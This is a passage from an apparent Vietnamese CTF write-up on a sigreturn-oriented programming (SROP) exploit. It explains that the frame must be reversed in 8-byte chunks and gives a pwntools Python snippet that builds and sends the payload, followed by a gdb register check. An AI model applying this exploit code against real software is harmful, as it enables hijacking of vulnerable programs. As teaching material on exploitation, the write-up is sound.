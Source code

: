 ![stack-dump.png](images/stack-dump.png)

Ta thấy cái frame của ta bị đảo ngược lại khi input. Vậy trước khi ta nhập input, ta cần phải đảo ngược frame của ta mỗi 8 byte rồi hẵn nhập. Vậy đoạn code bên trên update lại thành:

```python
reverse_frame = b''.join([bytes(frame)[i:i+8] for i in range(len(frame), -1, -8)  ])
sigreturn = 0x00000000004010ce
payload = flat(
    bytes(reverse_frame),
    sigreturn,
    )
payload = payload.rjust(8*8189, b'P')
for i in range(0, len(payload), 8):
	print(i/8, end='\r')
    p.sendafter(b'complete', payload[i:i+8])
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Ta chạy lại script và debug với gdb, cho chương trình chạy thử cái gadget sigreturn và ta kiểm tra xem liệu các register có được set đúng hay chưa:

![check-register-reverse-frame.png](images/check-register-reverse-frame.png)
